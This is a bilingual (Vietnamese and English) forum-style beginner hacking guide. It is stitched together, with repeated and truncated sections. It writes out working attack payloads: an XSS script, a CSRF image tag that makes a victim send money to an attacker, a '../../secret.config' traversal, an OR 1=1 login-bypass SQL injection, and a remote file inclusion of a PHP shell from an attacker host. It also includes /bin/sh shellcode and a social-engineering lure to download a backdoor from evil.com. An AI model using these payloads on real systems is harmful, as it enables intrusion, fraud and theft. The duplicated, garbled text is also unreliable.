






Hướng dẫn hack tổng quan
Lưu ý: Hướng dẫn sau đây dựa vào kinh nghiệm và góc nhìn cá nhân của tôi. tôi sẽ không chịu trách nhiệm với hành động phạm pháp mà bạn gây ra, những thông tin liệt kê dưới đây có thể sử dụng cho những mục đích phạm pháp, tôi không khuyến khích bạn làm. Xin Cảm ơn.
Đây là một bài viết hướng dẫn được thiết kế để giúp mọi người tránh xa những thứ như DDoSing hoặc RAT. Mặc dù chúng có mục đích của chúng, chúng đều là những công cụ thường được sử dụng bởi những người mới bắt đầu và cần ít hoặc không có kỹ năng gì về hack để sử dụng.
Lý do cho những điều này khá đơn giản, nhưng đối với những người chưa hiểu rõ thì tôi sẽ giải thích chúng.
Nhận biết chung, là một điều hiển nhiên, đòi hỏi bạn phải có khả năng tạo ra một vấn đề cho chính mình và giải quyết nó một cách hợp lý bằng thông tin được yêu cầu hoặc thông tin tìm được.
Thành thạo máy tính, điều hiển nhiên, có một chút hiểu lầm ở đây rằng bạn không cần thiết phải biết kiến trúc CPU Intel, C ++,CLI ngay bây giờ. Ý tôi đơn giản là bạn có thể tiếp cận bất kỳ phần mềm nào và thông qua việc khám phá, có thể sử dụng phần mềm đó..Điều này không có nghĩa là thành thạo chỉ với một phần mềm duy nhất, nó như kiểu là việc trở thành một nhạc sĩ và có thể cầm và chơi bất kì một nhạc cụ nào và tạo ra những giai điệu.Không cần hướng dẫn, chưa từng huấn luyện, theo trực giác. Từ nhưng điều trên ta nên luôn học các ngôn ngữ và khái niệm dựa trên việc khai thác lỗ hổng. Chỉ Phân vùng các lỗ hổng PHP hoặc XSS sẽ khiến bạn bị bế tắc.
Tự học & mày mò, một phương pháp tốt. Cho dù bạn đang theo học tại MIT, hay theo học của Kevin Mitnick, hay tham gia các lớp học ban đêm để đạt được mục tiêu trở thành một hacker, bạn phải luôn là người tự chủ động, thực hành và xem cách nó hoạt động.Để có động lực tự học và trả lời những câu hỏi mà chưa ai hỏi. Không có mục tiêu nào ngọt ngào hơn là hoàn thành một điều gì đó mà không cần ai trợ giúp. Lưu ý: Sẽ có những chủ đề trong bài viết này mà bạn có thể phải tra cứu trên mạng. Hacking là một mảng rất rộng vì vậy mà để tổng hợp hết chi tiết về nó trong một bài viết này là rất khó. Vì thế mà có đôi cái sẽ không được giải thích quá chi tiết và đầy đủ được.
Lý do tôi mở đầu danh sách trên với "Tạo" là bởi vì việc sử dụng lại một đoạn mã khai thác lỗ hổng đã được phát hiện trước đó không giúp bạn cải thiện nhiều kĩ năng hack.Mặc dù việc tìm kiếm và thực hiện các khai thác lỗ hổng đôi khi có thể đòi hỏi một lượng kỹ năng, nhưng điều đó không khó bằng việc tự phát triển một cuộc tấn công, nó giúp các bạn cải thiện kĩ năng rất nhiều cũng như hiểu bản chất, đến một lúc nào đó bạn sẽ tìm ra được các lỗ hổng "0day" tức là các lỗ hổng nguy hiểm mà chưa ai biết đến hoặc người ta chưa sửa chữa kịp thời.Danh sách các lỗ hổng phổ biến này không có thứ tự quan trọng cụ thể vì mỗi cuộc tấn công bằng những lỗ hổng này đều gây nguy hiểm đối với một trang web.Với những điều đã nói ở trên, bây giờ tôi sẽ cố gắng xem xét từng cuộc tấn công đã được liệt kê ở trên, bao gồm "thông tin", "lý do", "tại sao chúng hoạt động theo cách đó" và "cách chúng bị khai thác".
Cross site scripting là một trong những cuộc tấn công có thể bao gồm từ việc làm thay đổi chức năng của một trang nhỏ cho đến chiếm toàn bộ trang web. Ý tưởng chung của việc khai thác này là kẻ tấn công sẽ tiêm (inject) đoạn mã javascript vào một trang nơi mà sau đó nạn nhân sẽ tự động chạy đoạn mã đó bằng cách truy cập trang đó.
Đây là một ví dụ nhanh. Giả sử trang web nạn nhân có chức năng tìm kiếmchuỗi đã tìm kiếm sau đó hiển thị kết quả. Một cái gì đó rất phổ biến. Nhưng cũng cần nói thêm rằng nạn nhân không có nhiều kinh nghiệm về PHP nên họ không lọc ra các dạng HTML trong kết quả tìm kiếm. Đây hiện là một dạng khai thác XSS tiềm năng.
CODE CỦA TRANG MÀ CHUẨN BỊ TẤN CÔNG
Bây giờ ví dụ nếu bạn truy cập http://example.com/search.php?q=cat%20videos bạn sẽ nhận được một trang có thông báo sau..
Những ai tinh ý một chút cũng có thể biết tôi đang dự định gì với cái này ... Nếu người ta thêm một thẻ script vào chuỗi tìm kiếm, nó sẽ chạy script của tôi trên trang đó cho bất kỳ ai theo liên kết của chúng tôi.Đây có thể là một cách dễ dàng để đánh cắp cookie trình duyệt (phiên người dùng) của quản trị viên. Nếu chúng ta nhập http://example.com/search.php?q=<script>.../script> thì điều này sẽ dẫn đến một trang như thế này ..
Lúc này trang web sẽ thực thi đoạn mã javascript đó và tạo ra một cửa sổ bật lên chỉ đơn giản hiển thị là "XSS". Tại thời điểm này, bạn có thể sử dụng trình đánh cắp cookie hoặc tạo trang lừa đảo bằng javascript. Nếu bạn muốn theo dõi hướng dẫn XSS sâu hơn và chuyên sâu hơn, hãy truy cập vào đây : http://greysec.net/showthread.php?tid=177
Now while this is a quick overview of XSS this is a wide subject worthy of its own paper. There are many excellent resources and war games to learn from, all of which can be easily found via a quick Google search.
Cross Site Request Forgery can be described as forcing the victim to automatically submit data to a trusted websites. This is an exploit that exists purely due to ignorance/bad server configuration. The general idea of CSRF is data is submitted to a trusted website unbeknownst to the victim. Some examples may include using the password change form on a website to update their password to something else, get likes or ratings on a social media network, or even send money through a bank.
Here is a quick example..
Let's say there is a bank website that has a function that allows a user to send money to another account through a webpage. Now let's also say that bank's web page doesn't check the HTTP referrer during form submissions. By using the service one could easily figure out how the system works. User posts the form then they are taken to a url like http://example.com/sendmoney?to=bobbyjon...eason=rent
Simple enough. Well now let's invite the victim to check out our new website we're working on (this part would be considered human manipulation) via an email or social network message.
Now on this page you would have something similar to this...
When Jill's browser opens that image it will give a broken image appearance to Jill. More importantly it will force Jill (if she is logged into the bank) to send the user attacker $1337.00 without her knowing, until she checks her balance.
CSRF is a very wide subject, like all things involved with hacking, and could not be covered in the depth that it truly deserves. I would suggest checking the many Internet resources about it that are available via a quick Google search.
A directory transversal attack is simply forcing a website to expose restricted files by editing the path where the server is searching.
A simple example would be a website that displays text files that are requested through the url, but for our purposes the developer is unaware of directory transversal.
Page Code...
Now if you were to go to http://example.com/?file=news.txt the server would serve up /home/webserver/http/txt/news.txt to the user. But let's say there is a configuration file we want in the directory /home/webserver/secret.config we could access it by loading up the following URL
http://example.com/?file=../../secret.config
Using the special directory ".." we were able to go up a directory multiple times until we had our path set to the desired location. The path fully written out would be /home/webserver/http/txt/../../secret.config the two .. cancel out the previous folders putting us in the /home/webserver directory.
Directory transversals, when discovered, can be used to uncover a large amount of data. Anything from source code, database configuration, passwords, or secret files. Like XSS you are only limited by your imagination, with that said I would suggest further research into directory transversals since you can come across other interesting concepts like null bytes for bypassing force file names and other such techniques.
The holy grail of exploits, SQL injection. This is something that is becoming harder and harder to come by and is as vast as the language it originates from. To understand the basics of SQL injection one my first truly understand SQL and PHP. With being said SQL injection is a way to modify a SQL query by inserting invalid characters into data that is being used by the query. There are a wide verity of uses for SQL injection but the most common example would have to be bypassing a login form. With that said I still have to state that SQL injection is powerful and you are only limited by your knowledge of SQL.
A simple example...
Let's say there is a website that has a simple login form that takes a user name and a password. Very standard, but what if the developer didn't know anything about SQL inject and how to prevent it?
To prevent having a large amount of PHP code for such a small example I will write pseudo code and will only focus on the user validation part of the code.
The validation script
Pretty simple... The sql query checks if a username with the inputed password exists, if it exists create a login session for that user. But what if we manipulated the data to make the SQL query bend to our whim? What if we took
SELECT * FROM users WHERE name="someusername" AND password="RANDOMINFORMATION"
and turned it into the below query by saying our user name was... " OR "1"="1"--
SELECT * FROM users WHERE name="" OR "1"="1"--" AND password="RANDOMINFORMATION"
This would load every user from the user table, resulting in use logging in as the first user in the database (most likely and admin). Let's dissect the query further.... The -- actually is a comment which will make mysql ignore anything to the left of the --, same goes for /*
SELECT * FROM users WHERE name="" OR "1"="1"--" AND password="RANDOMINFORMATION"
So our query is now..
SELECT * FROM users WHERE name="" OR "1"="1"
Which is a lot more readable. At this point the query is saying select all fields from the table users where name is empty OR 1 equals 1. This is a query that is always true. No there isn't a blank user but 1 will always equal 1 resulting in all the users being dumped. If you have a mysql DB with a user table similar to this I would suggest trying that query/experimenting.
Now, in this instance the SQL injection " OR "1"="1"-- worked but that wont always be the case. Sometimes you wont be able to use certain characters or they query might use single quotes instead of double quotes. This is where experimentation comes in and of course you MUST dive into this subject more. These few paragraphs on SQL injection do not even scratch the surface of what is possible. Please research more into this and always keep your eyes open for potential SQL injections.
File inclusion vulnerabilities are becoming more and more rare these days, but when they are found they can be extremely powerful. This exploit put simply is just tricking the server into rendering malicious code instead of the intended file.
Example, let's say I have a website that can load different themes based off of a url query like so...
http://example.com/?theme=dark this would trigger some php code that would include the proper theme files into the page.
Page code
Note that this is comparable to the directory transversal attack, but since the code is executing the included file it is worth while to inject malicious files instead of trying to read local ones.
A simple way we could execute any code we want here is to build a PHP shell and use the exploit to run it on the victim server. After writing our shell we would go to the following URL...
http://example.com/?theme=http://attacke...pshell.txt?
This forces PHP to run..
This downloads our script at this point we could do just about anything we wanted to on the server, depending on your PHP skills. Once again I have to reiterate that this is a wide subject and continued research must be put into this.
To be honest I don't know if I have a large enough knowledge base to even know where to start covering application hacking, that's just how large of a topic it is. But I will attempt to do my best.
Example, let's say someone wrote this horrible password program and keep the password hard coded in plain text into the application. Well, with some simple reverse engineering will get that right out for us... For the sake of the guide I removed the plain text password for now...
Once we have the compiled binary you can disassemble it, and since I'm both simple and poor I will be using GDB.
Let's now dive into the code and try to find where our string might just be... This may be confusing if you have never touched ASM but I hope to be at least somewhat of a guide.
The left column is the memory space the ASM command resides in, the second column is a GDB debugger alias (example main*10 points at 0x08048525), the third column is the ASM function, and the fourth column are the arguments.
The real fun in the program doesn't start for us until main*26 . This is where we start writing to memory for the variable hidden (which contains the password), the variable pass(and subsequent space in memory) was created around main*14. As you can see we have XOR eax, eax which writes a 0 to eax.
After that we see MOV DWORD PTR [ebp-0x7f],0x6d6f6f74 this is moving the hex data 0x6d6f6f74 into ebp's position minus 0x7f which is 127 in decimal. Then you see another call to MOV DWORD PTR, then again, and again, and again until it is a BYTE PTR. This is essentially the way assembly stores a long string in the stack terminating it with a null byte (0x0) as C typically does. Once this happens the code moves the stack pointer(esp) by 0xc (decimal 12). At that point the code writes 0x8048670 to the stack(The argument for printf is stored there) and calls the function printf at 0x80483c0.
What does this all mean? Well in short we made space for the an empty var to be stored, wrote a lot of hex to the stack, and then called printf... Seem familiar?
At this point it is safe to say all the hex stored was our password string so let's collect it, but remember the stack goes in reverse...
0x73746572636573796e616d6f6f74 now convert this hex into ascii and you get stercesynamoot, makes no sense until you remember that the stack is reversed so you should reverse the string...

Of course this is just a tiny taste of it. An expert could lecture for hours and still once touch the surface, this is a never ending field. The best way to actually learn how to reverse engineer a complex program is to write many complex applications and understand them at a very low level(ASM).
Buffer Overflows (Note: for real life examples and practice read the "Smashing The Stack For Fun And Profit" by Aleph One I only cover the theory behind it)
I will not review how the stack functions in this short section. For that you could easily read the above mentioned paper. But the general idea of a buffer overflow is to find a way to input data into a vulnerable program(Typically through an argument in the program). Then inject data into the program until the target variable's allocated space in memory is full. After this you surpass that limit by adding even more data. This results in the "Stack overflow error" you may have seen in different programs. The most common way to exploit this is to first build a snippet of C or Assembly code that spawns a shell, compile it then convert it to hex. (EX. This is a shell that calls system("/bin/sh/"); "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80") Once you have your shell the you can now figure out how much data to fill the stack with, followed by the shell, then by 4 bytes of NOP, and finally a return address that forces the program to run our shell. At first this may seem a little complicated but allow me to explain further...
In a compiled language when you declare a variable you typically have to give it a range. This allows the Assembly code to define an uninitialized section of memory. This seems fine, but sometimes programs unintelligently write every input to memory while not understanding what that its boundary should be. By excelling that limit the program writes variable data into the stack (This is where the rest of the assembly instructions should have been).
Here is an example of a program running with no buffer overflow...
Like stated above this is only theory but there are MANY practical tutorials, real life examples, and of course wargames. I would suggest you check them all out if you are interesting in buffer overflows and how they function at a practical level.
![[Image: xEYa3lK.jpg]](./huong_dan_hack/xEYa3lK.jpg)
Anything you can gather that has information should be copied or memorized. This will allow you to understand the mind and schedule of your potential victim.
Once this has been done the attacker will attempt to move onto the next target or start entering the system through any backdoors put in place by the victim.
For example let's say we are social engineering to have someone install a backdoor. We have already gained rapport and are a trusted entity. Instead of starting off will "Ok please open your bowser and type http://evil.com/backdoor.exe" we will wrap our intentions.
By wrapping the attack in both simple and slightly confusing requests we have helped mask the attack and made a clean exit.
Social engineering is a huge field and should be studied as such. There are many great articles on the Internet if you choose to study this school of thought.

Hướng dẫn hack tổng quan
Hướng dẫn hack tổng quan
Lời nói đầu
Chào bạn ! có vẻ như bạn đã đi những bước đầu tiên để đi theo một con đường rất thú vị và khó khăn.Đây là một bài viết hướng dẫn được thiết kế để giúp mọi người tránh xa những thứ như DDoSing hoặc RAT. Mặc dù chúng có mục đích của chúng, chúng đều là những công cụ thường được sử dụng bởi những người mới bắt đầu và cần ít hoặc không có kỹ năng gì về hack để sử dụng.
Định nghĩa về Nghệ thuật & Khoa học
Cá nhân tôi tin rằng hack vừa là nghệ thuật vừa chính là khoa học,đối với tôi hack chỉ đơn giản là sử dụng kiến thức, sự hiểu biết của mình về hệ thống để tạo ra một kết quả không mong muốn,Điều này được thấy trong việc hack máy tính, điện thoại, ổ khóa, thiết bị điện tử đa năng và thậm chí cả con người.Mục đích của Hướng dẫn
Hướng dẫn này được thiết kế để giúp bạn nắm chắc các phương pháp hack và đưa ra các ví dụ về chúng, cũng như chỉ ra những gì mà bạn nên bắt đầu học.Điều kiện
Không phải ai cũng có các công cụ để trở thành một "hacker đúng nghĩa" ngay từ đầu. Bởi điều này, tôi không có ý nói rằng cần phải có một máy tính, một phần mềm hoặc một bản phân phối Linux kỳ diệu nào đó. Hiếm khi những thứ đó thực sự cần thiết để bắt đầu con đường trở thành hacker của bạn. Các công cụ mà tôi thực sự đang nói đến là- Nhận biết chung
- Thành thạo máy tính
- Có khả năng tự học
Lý do cho những điều này khá đơn giản, nhưng đối với những người chưa hiểu rõ thì tôi sẽ giải thích chúng.
Nhận biết chung, là một điều hiển nhiên, đòi hỏi bạn phải có khả năng tạo ra một vấn đề cho chính mình và giải quyết nó một cách hợp lý bằng thông tin được yêu cầu hoặc thông tin tìm được.
Thành thạo máy tính, điều hiển nhiên, có một chút hiểu lầm ở đây rằng bạn không cần thiết phải biết kiến trúc CPU Intel, C ++,CLI ngay bây giờ. Ý tôi đơn giản là bạn có thể tiếp cận bất kỳ phần mềm nào và thông qua việc khám phá, có thể sử dụng phần mềm đó..Điều này không có nghĩa là thành thạo chỉ với một phần mềm duy nhất, nó như kiểu là việc trở thành một nhạc sĩ và có thể cầm và chơi bất kì một nhạc cụ nào và tạo ra những giai điệu.Không cần hướng dẫn, chưa từng huấn luyện, theo trực giác. Từ nhưng điều trên ta nên luôn học các ngôn ngữ và khái niệm dựa trên việc khai thác lỗ hổng. Chỉ Phân vùng các lỗ hổng PHP hoặc XSS sẽ khiến bạn bị bế tắc.
Tự học & mày mò, một phương pháp tốt. Cho dù bạn đang theo học tại MIT, hay theo học của Kevin Mitnick, hay tham gia các lớp học ban đêm để đạt được mục tiêu trở thành một hacker, bạn phải luôn là người tự chủ động, thực hành và xem cách nó hoạt động.Để có động lực tự học và trả lời những câu hỏi mà chưa ai hỏi. Không có mục tiêu nào ngọt ngào hơn là hoàn thành một điều gì đó mà không cần ai trợ giúp. Lưu ý: Sẽ có những chủ đề trong bài viết này mà bạn có thể phải tra cứu trên mạng. Hacking là một mảng rất rộng vì vậy mà để tổng hợp hết chi tiết về nó trong một bài viết này là rất khó. Vì thế mà có đôi cái sẽ không được giải thích quá chi tiết và đầy đủ được.
HACK WEB APPLICATION
Một trong những điều đáng tiếc nhất về "hack" web hiện đại đó là nó hiếm khi tuyệt vời như người ta nghĩ.Nó giống như ảo thuật, "phép thuật" bị mất khi và chỉ khi bạn nhận ra nó có mẹo rất đơn giản và nhàm chán.Các Tài khoản đã bị lừa đảo, các câu hỏi bảo mật đã bị đoán mò, hay nạn nhân đã đăng nhập vào một máy tính công cộng ... Nhưng ngoài thao tác của con người, tôi không coi đây là những kỹ thuật hack thực sự, chúng đều có thể ngang bằng với RAT và DDoSing. Những thứ tôi cho là hack thực sự sẽ phải có, nhưng không giới hạn ở những điều sau ..- Tạo một cuộc tấn công XSS
- Tạo một cuộc tấn công CSRF
- Tạo một cuộc tấn công truyền qua thư mục ( directory transversal attack )
- Tạo một cuộc tấn công SQL injection
- Soạn thảo một cuộc tấn công bao gồm tệp (file inclusion attack)
Lý do tôi mở đầu danh sách trên với "Tạo" là bởi vì việc sử dụng lại một đoạn mã khai thác lỗ hổng đã được phát hiện trước đó không giúp bạn cải thiện nhiều kĩ năng hack.Mặc dù việc tìm kiếm và thực hiện các khai thác lỗ hổng đôi khi có thể đòi hỏi một lượng kỹ năng, nhưng điều đó không khó bằng việc tự phát triển một cuộc tấn công, nó giúp các bạn cải thiện kĩ năng rất nhiều cũng như hiểu bản chất, đến một lúc nào đó bạn sẽ tìm ra được các lỗ hổng "0day" tức là các lỗ hổng nguy hiểm mà chưa ai biết đến hoặc người ta chưa sửa chữa kịp thời.Danh sách các lỗ hổng phổ biến này không có thứ tự quan trọng cụ thể vì mỗi cuộc tấn công bằng những lỗ hổng này đều gây nguy hiểm đối với một trang web.Với những điều đã nói ở trên, bây giờ tôi sẽ cố gắng xem xét từng cuộc tấn công đã được liệt kê ở trên, bao gồm "thông tin", "lý do", "tại sao chúng hoạt động theo cách đó" và "cách chúng bị khai thác".
- Cross Site Scripting (XSS)
Để nắm bắt đầy đủ và hiểu cách các chức năng của XSS, tôi tin rằng bạn nên có một số kinh nghiệm hiểu biết qua sau đây ... - Ngôn ngữ phía máy chủ (như là PHP)
- Javascript
- HTML
Cross site scripting là một trong những cuộc tấn công có thể bao gồm từ việc làm thay đổi chức năng của một trang nhỏ cho đến chiếm toàn bộ trang web. Ý tưởng chung của việc khai thác này là kẻ tấn công sẽ tiêm (inject) đoạn mã javascript vào một trang nơi mà sau đó nạn nhân sẽ tự động chạy đoạn mã đó bằng cách truy cập trang đó.
Đây là một ví dụ nhanh. Giả sử trang web nạn nhân có chức năng tìm kiếmchuỗi đã tìm kiếm sau đó hiển thị kết quả. Một cái gì đó rất phổ biến. Nhưng cũng cần nói thêm rằng nạn nhân không có nhiều kinh nghiệm về PHP nên họ không lọc ra các dạng HTML trong kết quả tìm kiếm. Đây hiện là một dạng khai thác XSS tiềm năng.
CODE CỦA TRANG MÀ CHUẨN BỊ TẤN CÔNG
Code:
$search_string = $_GET['q'];
// normally a database query would be here but we'll leave that out.
echo 'You searched for "' . $search_string . '"';
echo $results;
Bây giờ ví dụ nếu bạn truy cập http://example.com/search.php?q=cat%20videos bạn sẽ nhận được một trang có thông báo sau..
Code:
You searched for "cat videos"
[Results here]Những ai tinh ý một chút cũng có thể biết tôi đang dự định gì với cái này ... Nếu người ta thêm một thẻ script vào chuỗi tìm kiếm, nó sẽ chạy script của tôi trên trang đó cho bất kỳ ai theo liên kết của chúng tôi.Đây có thể là một cách dễ dàng để đánh cắp cookie trình duyệt (phiên người dùng) của quản trị viên. Nếu chúng ta nhập http://example.com/search.php?q=<script>.../script> thì điều này sẽ dẫn đến một trang như thế này ..
Code:
You searched for "<script>alert('XSS');</script>"
[Results here]Lúc này trang web sẽ thực thi đoạn mã javascript đó và tạo ra một cửa sổ bật lên chỉ đơn giản hiển thị là "XSS". Tại thời điểm này, bạn có thể sử dụng trình đánh cắp cookie hoặc tạo trang lừa đảo bằng javascript. Nếu bạn muốn theo dõi hướng dẫn XSS sâu hơn và chuyên sâu hơn, hãy truy cập vào đây : http://greysec.net/showthread.php?tid=177
Now while this is a quick overview of XSS this is a wide subject worthy of its own paper. There are many excellent resources and war games to learn from, all of which can be easily found via a quick Google search.
- Cross Site Request Forgery (CSRF)
To fully grasp an understand how CSRF functions I believe you should have some experience in the following...- Server side language (like PHP)
Cross Site Request Forgery can be described as forcing the victim to automatically submit data to a trusted websites. This is an exploit that exists purely due to ignorance/bad server configuration. The general idea of CSRF is data is submitted to a trusted website unbeknownst to the victim. Some examples may include using the password change form on a website to update their password to something else, get likes or ratings on a social media network, or even send money through a bank.
Here is a quick example..
Let's say there is a bank website that has a function that allows a user to send money to another account through a webpage. Now let's also say that bank's web page doesn't check the HTTP referrer during form submissions. By using the service one could easily figure out how the system works. User posts the form then they are taken to a url like http://example.com/sendmoney?to=bobbyjon...eason=rent
Simple enough. Well now let's invite the victim to check out our new website we're working on (this part would be considered human manipulation) via an email or social network message.
Quote:Hey Jill,
I just wanted to show you this website I've been working on. Please check it out.
http://exampleattack.com
Now on this page you would have something similar to this...
Code:
<img src="http://example.com/sendmoney?to=attacker&amount=1337.00&reason=exploits">When Jill's browser opens that image it will give a broken image appearance to Jill. More importantly it will force Jill (if she is logged into the bank) to send the user attacker $1337.00 without her knowing, until she checks her balance.
CSRF is a very wide subject, like all things involved with hacking, and could not be covered in the depth that it truly deserves. I would suggest checking the many Internet resources about it that are available via a quick Google search.
- Directory Transversal Attack
To fully grasp an understand how directory transversal functions I believe you should have some experience in the following...- Server side language (like PHP)
- Navigating folder structures in a Unix/Linux environment
A directory transversal attack is simply forcing a website to expose restricted files by editing the path where the server is searching.
A simple example would be a website that displays text files that are requested through the url, but for our purposes the developer is unaware of directory transversal.
Page Code...
Code:
$file_name = $_GET['file'];
$f = fopen("/home/webserver/http/txt/" . $file_name, "r") or die("Unable to open file!");
echo fread($f, filesize($file_name));
fclose($f);
Now if you were to go to http://example.com/?file=news.txt the server would serve up /home/webserver/http/txt/news.txt to the user. But let's say there is a configuration file we want in the directory /home/webserver/secret.config we could access it by loading up the following URL
http://example.com/?file=../../secret.config
Using the special directory ".." we were able to go up a directory multiple times until we had our path set to the desired location. The path fully written out would be /home/webserver/http/txt/../../secret.config the two .. cancel out the previous folders putting us in the /home/webserver directory.
Directory transversals, when discovered, can be used to uncover a large amount of data. Anything from source code, database configuration, passwords, or secret files. Like XSS you are only limited by your imagination, with that said I would suggest further research into directory transversals since you can come across other interesting concepts like null bytes for bypassing force file names and other such techniques.
- SQL Injection
To fully grasp an understand how SQL injection functions I believe you should have some experience in the following...- Server side language (like PHP)
- SQL
The holy grail of exploits, SQL injection. This is something that is becoming harder and harder to come by and is as vast as the language it originates from. To understand the basics of SQL injection one my first truly understand SQL and PHP. With being said SQL injection is a way to modify a SQL query by inserting invalid characters into data that is being used by the query. There are a wide verity of uses for SQL injection but the most common example would have to be bypassing a login form. With that said I still have to state that SQL injection is powerful and you are only limited by your knowledge of SQL.
A simple example...
Let's say there is a website that has a simple login form that takes a user name and a password. Very standard, but what if the developer didn't know anything about SQL inject and how to prevent it?
To prevent having a large amount of PHP code for such a small example I will write pseudo code and will only focus on the user validation part of the code.
The validation script
Code:
$query = sql('SELECT * FROM users WHERE name="' . $username . '" AND password="' . md5($password) . '"');
if (count($query)) {
create_session_for_user($query[0]->uid);
}
else {
echo 'not a valid username or password';
}Pretty simple... The sql query checks if a username with the inputed password exists, if it exists create a login session for that user. But what if we manipulated the data to make the SQL query bend to our whim? What if we took
SELECT * FROM users WHERE name="someusername" AND password="RANDOMINFORMATION"
and turned it into the below query by saying our user name was... " OR "1"="1"--
SELECT * FROM users WHERE name="" OR "1"="1"--" AND password="RANDOMINFORMATION"
This would load every user from the user table, resulting in use logging in as the first user in the database (most likely and admin). Let's dissect the query further.... The -- actually is a comment which will make mysql ignore anything to the left of the --, same goes for /*
SELECT * FROM users WHERE name="" OR "1"="1"--" AND password="RANDOMINFORMATION"
So our query is now..
SELECT * FROM users WHERE name="" OR "1"="1"
Which is a lot more readable. At this point the query is saying select all fields from the table users where name is empty OR 1 equals 1. This is a query that is always true. No there isn't a blank user but 1 will always equal 1 resulting in all the users being dumped. If you have a mysql DB with a user table similar to this I would suggest trying that query/experimenting.
Now, in this instance the SQL injection " OR "1"="1"-- worked but that wont always be the case. Sometimes you wont be able to use certain characters or they query might use single quotes instead of double quotes. This is where experimentation comes in and of course you MUST dive into this subject more. These few paragraphs on SQL injection do not even scratch the surface of what is possible. Please research more into this and always keep your eyes open for potential SQL injections.
- File Inclusion
To fully grasp an understand how file inclusion functions I believe you should have some experience in the following...- Server side language (like PHP)
File inclusion vulnerabilities are becoming more and more rare these days, but when they are found they can be extremely powerful. This exploit put simply is just tricking the server into rendering malicious code instead of the intended file.
Example, let's say I have a website that can load different themes based off of a url query like so...
http://example.com/?theme=dark this would trigger some php code that would include the proper theme files into the page.
Page code
Code:
if (isset($_GET['theme'])) {
include($_GET['theme'] . '.php');
}
Note that this is comparable to the directory transversal attack, but since the code is executing the included file it is worth while to inject malicious files instead of trying to read local ones.
A simple way we could execute any code we want here is to build a PHP shell and use the exploit to run it on the victim server. After writing our shell we would go to the following URL...
http://example.com/?theme=http://attacke...pshell.txt?
This forces PHP to run..
Code:
include('http://attackerexample.com/phpshell.txt?.php');Application Hacking
There are many types of hacking but I would have to say application hacking is the one that demands the most respect. When I say application hacking I'm referring to the following activities application reverse engineering, writing buffer/stack overflows, privilege escalation, and all around tinkering with software at deep intimate level. Before continuing this section I have to say knowing and truly understanding the C programming language as well as being able to read assembly language is of the utmost importance. If you want to really learn this I would have to say "The Art of Exploitation" is the most important book to have in your library.To be honest I don't know if I have a large enough knowledge base to even know where to start covering application hacking, that's just how large of a topic it is. But I will attempt to do my best.
- Reverse Engineering
